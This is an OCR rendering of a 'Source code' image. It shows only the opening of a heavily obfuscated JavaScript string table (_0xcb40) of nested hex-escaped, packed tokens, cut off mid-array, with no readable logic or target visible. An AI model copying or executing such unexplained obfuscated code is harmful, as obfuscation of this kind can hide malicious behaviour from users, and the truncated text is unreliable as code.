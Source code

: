 var
_0xcb40=["\x73\x20\x36\x5A\x3D\x5B\x27\x5C\x61\x5C\x34\x5C\x31\x4A\x5C\x56\x5C\x39\x5C\x42\x5C\x48\x27\x2C\x27\x5C\x31\x4A\x5C\x43\x5C\x32\x33\x5C\x31\x4B\x5C\x31\x64\x27\x2C\x27\x5C\x31\x4A\x5C\x31\x74\x5C\x42\x5C\x42\x5C\x31\x62\x27\x2C\x27\x5C\x31\x4B\x5C\x31\x4E\x5C\x31\x42\x5C\x34\x5C\x31\x69\x27\x2C\x27\x5C\x34\x5C\x6B\x5C\x6B\x5C\x61\x5C\x56\x27\x2C\x27\x5C\x37\x5C\x62\x5C\x66\x5C\x65\x5C\x61\x5C\x61\x5C\x31\x6A\x5C\x65\x5C\x6B\x27\x2C\x27\x5C\x36\x5C\x65\x5C\x6B\x27\x2C\x27\x5C\x65\x5C\x64\x5C\x61\x5C\x65\x5C\x34\x5C\x38\x27\x2C\x27\x5C\x61\x5C\x34\x5C\x31\x4A\x5C\x56\x5C\x6C\x5C\x39\x5C\x42\x5C\x48\x27\x2C\x27\x5C\x37\x5C\x66\x5C\x62\x27\x2C\x27\x5C\x34\x5C\x36\x5C\x36\x5C\x66\x27\x2C\x27\x5C\x66\x5C\x65\x5C\x43\x5C\x64\x5C\x38\x27\x2C\x27\x5C\x77\x5C\x33\x5C\x39\x5C\x48\x5C\x77\x5C\x36\x27\x2C\x27\x5C\x37\x5C\x71\x5C\x72\x5C\x6C\x5C\x62\x27\x2C\x27\x5C\x66\x5C\x33\x5C\x6B\x5C\x61\x5C\x34\x5C\x62\x5C\x33\x27\x2C\x27\x5C\x4A\x5C\x37\x5C\x71\x5C\x72\x5C\x6C\x5C\x62\x27\x2C\x27\x5C\x61\x5C\x65\x5C\x34\x5C\x38\x5C\x6E\x5C\x66\x5C\x33\x5C\x37\x5C\x39\x5C\x31\x4A\x27\x2C\x27\x5C\x33\x5C\x6E\x5C\x37\x5C\x62\x5C\x66\x5C\x65\x5C\x61\x5C\x61\x27\x2C\x27\x5C\x6B\x5C\x34\x5C\x66\x5C\x33\x5C\x64\x5C\x36\x27\x2C\x27\x5C\x34\x5C\x38\x5C\x38\x5C\x31\x66\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x27\x2C\x27\x5C\x42\x5C\x33\x5C\x48\x5C\x34\x5C\x48\x5C\x66\x5C\x39\x5C\x38\x27\x2C\x27\x5C\x34\x5C\x6B\x5C\x6B\x5C\x33\x5C\x64\x5C\x38\x27\x2C\x27\x5C\x47\x5C\x41\x5C\x55\x5C\x34\x5C\x39\x5C\x36\x5C\x41\x5C\x49\x5C\x4B\x5C\x38\x27\x2C\x27\x5C\x39\x5C\x50\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x65\x5C\x64\x5C\x41\x5C\x49\x5C\x4B\x5C\x4A\x5C\x38\x5C\x39\x5C\x50\x5C\x49\x27\x2C\x27\x5C\x31\x63\x5C\x34\x5C\x61\x5C\x32\x34\x5C\x6A\x27\x2C\x27\x5C\x31\x76\x5C\x33\x5C\x31\x6A\x5C\x32\x5C\x61\x27\x2C\x27\x5C\x4C\x5C\x37\x5C\x33\x5C\x34\x5C\x66\x5C\x62\x5C\x77\x5C\x6C\x5C\x62\x5C\x65\x27\x2C\x27\x5C\x33\x5C\x66\x5C\x61\x5C\x34\x5C\x56\x27\x2C\x27\x5C\x36\x5C\x65\x5C\x48\x5C\x48\x5C\x61\x5C\x33\x5C\x31\x66\x5C\x61\x5C\x34\x5C\x37\x27\x2C\x27\x5C\x36\x5C\x34\x5C\x39\x5C\x64\x5C\x33\x5C\x66\x5C\x6C\x5C\x65\x5C\x50\x5C\x33\x27\x2C\x27\x5C\x6A\x5C\x65\x5C\x38\x5C\x56\x27\x2C\x27\x5C\x34\x5C\x62\x5C\x36\x5C\x39\x5C\x50\x5C\x33\x27\x2C\x27\x5C\x31\x34\x5C\x31\x69\x5C\x31\x63\x5C\x64\x5C\x77\x27\x2C\x27\x5C\x50\x5C\x31\x64\x5C\x31\x30\x5C\x31\x30\x5C\x31\x71\x27\x2C\x27\x5C\x43\x5C\x64\x5C\x38\x5C\x33\x5C\x63\x5C\x39\x5C\x64\x5C\x33\x5C\x38\x27\x2C\x27\x5C\x65\x5C\x6A\x5C\x31\x67\x5C\x33\x5C\x62\x5C\x36\x27\x2C\x27\x5C\x31\x45\x5C\x33\x5C\x48\x5C\x31\x7A\x5C\x32\x5C\x6B\x27\x2C\x27\x5C\x32\x46\x5C\x33\x55\x5C\x6E\x5C\x32\x56\x5C\x32\x68\x5C\x33\x6B\x5C\x32\x68\x5C\x33\x6B\x5C\x32\x68\x5C\x32\x46\x27\x2C\x27\x5C\x33\x55\x5C\x6E\x5C\x32\x56\x5C\x35\x4B\x27\x2C\x27\x5C\x36\x5C\x33\x5C\x37\x5C\x36\x27\x2C\x27\x5C\x31\x72\x5C\x33\x5C\x34\x5C\x36\x5C\x43\x5C\x66\x5C\x33\x5C\x38\x27\x2C\x27\x5C\x33\x5C\x33\x5C\x34\x5C\x31\x71\x5C\x31\x67\x27\x2C\x27\x5C\x31\x75\x5C\x34\x5C\x66\x5C\x48\x5C\x39\x5C\x64\x5C\x31\x6A\x5C\x65\x5C\x6B\x27\x2C\x27\x5C\x34\x5C\x38\x5C\x38\x5C\x39\x5C\x36\x5C\x39\x5C\x65\x5C\x64\x5C\x34\x5C\x61\x27\x2C\x27\x5C\x31\x75\x5C\x34\x5C\x66\x5C\x48\x5C\x39\x5C\x64\x5C\x31\x74\x5C\x65\x5C\x36\x5C\x36\x27\x2C\x27\x5C\x33\x5C\x34\x5C\x62\x5C\x77\x27\x2C\x27\x5C\x63\x5C\x39\x5C\x64\x5C\x38\x27\x2C\x27\x5C\x4C\x5C\x32\x33\x5C\x39\x5C\x64\x5C\x31\x30\x5C\x32\x33\x5C\x39\x5C\x37\x5C\x36\x5C\x6E\x27\x2C\x27\x5C\x43\x5C\x61\x5C\x6E\x5C\x49\x5C\x6E\x5C\x61\x5C\x39\x27\x2C\x27\x5C\x62\x5C\x77\x5C\x39\x5C\x61\x5C\x38\x5C\x66\x5C\x33\x5C\x64\x27\x2C\x27\x5C\x61\x5C\x33\x5C\x64\x5C\x48\x5C\x36\x5C\x77\x27\x2C\x27\x5C\x77\x5C\x43\x5C\x32\x63\x5C\x66\x5C\x31\x69\x27\x2C\x27\x5C\x31\x64\x5C\x31\x54\x5C\x31\x72\x5C\x31\x30\x5C\x64\x27\x2C\x27\x5C\x62\x5C\x77\x5C\x34\x5C\x66\x5C\x31\x62\x5C\x36\x27\x2C\x27\x5C\x36\x5C\x33\x5C\x32\x5C\x36\x27\x2C\x27\x5C\x42\x5C\x6C\x5C\x37\x5C\x43\x5C\x6A\x5C\x41\x5C\x4A\x5C\x49\x27\x2C\x27\x5C\x31\x72\x5C\x48\x5C\x31\x4E\x5C\x31\x4B\x5C\x31\x72\x27\x2C\x27\x5C\x4C\x5C\x6A\x5C\x61\x5C\x65\x5C\x48\x5C\x6C\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x27\x2C\x27\x5C\x6E\x5C\x77\x5C\x35\x5C\x4C\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x36\x27\x2C\x27\x5C\x4C\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x64\x5C\x33\x5C\x32\x5C\x36\x27\x2C\x27\x5C\x39\x5C\x64\x5C\x64\x5C\x33\x5C\x66\x5C\x6C\x5C\x39\x5C\x64\x5C\x64\x5C\x33\x27\x2C\x27\x5C\x66\x5C\x6E\x5C\x6B\x27\x2C\x27\x5C\x4C\x5C\x37\x5C\x43\x5C\x6A\x5C\x6C\x5C\x42\x5C\x33\x5C\x64\x5C\x43\x27\x2C\x27\x5C\x63\x5C\x31\x74\x5C\x31\x4E\x5C\x32\x74\x5C\x77\x27\x2C\x27\x5C\x62\x5C\x31\x63\x5C\x31\x74\x5C\x31\x64\x5C\x38\x27\x2C\x27\x5C\x4B\x5C\x43\x5C\x61\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x27\x2C\x27\x5C\x41\x5C\x37\x5C\x43\x5C\x6A\x5C\x6C\x5C\x42\x5C\x33\x5C\x64\x5C\x43\x5C\x72\x27\x2C\x27\x5C\x6E\x5C\x42\x5C\x6C\x5C\x37\x5C\x43\x5C\x6A\x5C\x41\x5C\x4A\x5C\x49\x27\x2C\x27\x5C\x34\x5C\x6B\x5C\x6B\x5C\x33\x5C\x64\x5C\x38\x5C\x31\x6A\x5C\x65\x27\x2C\x27\x5C\x43\x5C\x61\x5C\x6E\x5C\x61\x5C\x39\x5C\x6E\x5C\x43\x5C\x61\x27\x2C\x27\x5C\x31\x75\x5C\x33\x5C\x64\x5C\x43\x27\x2C\x27\x5C\x31\x6F\x5C\x77\x5C\x34\x5C\x42\x5C\x6A\x5C\x43\x5C\x66\x5C\x48\x5C\x33\x5C\x66\x27\x2C\x27\x5C\x31\x75\x5C\x33\x5C\x64\x5C\x43\x5C\x6E\x5C\x4C\x5C\x55\x5C\x39\x5C\x38\x5C\x48\x27\x2C\x27\x5C\x37\x5C\x77\x5C\x65\x5C\x55\x5C\x6C\x5C\x42\x5C\x33\x5C\x64\x5C\x43\x27\x2C\x27\x5C\x4C\x5C\x77\x5C\x34\x5C\x42\x5C\x6A\x5C\x43\x5C\x66\x5C\x48\x5C\x33\x5C\x66\x27\x2C\x27\x5C\x31\x75\x5C\x33\x5C\x64\x5C\x43\x5C\x6E\x5C\x61\x5C\x39\x5C\x6E\x27\x2C\x27\x5C\x37\x5C\x43\x5C\x6A\x5C\x37\x5C\x36\x5C\x66\x27\x2C\x27\x5C\x42\x5C\x33\x5C\x48\x5C\x34\x5C\x4A\x27\x2C\x27\x5C\x4B\x5C\x38\x5C\x39\x5C\x50\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x27\x2C\x27\x5C\x47\x5C\x41\x5C\x42\x5C\x33\x5C\x48\x5C\x34\x5C\x6C\x5C\x62\x5C\x65\x5C\x64\x27\x2C\x27\x5C\x55\x5C\x34\x5C\x39\x5C\x36\x5C\x41\x5C\x49\x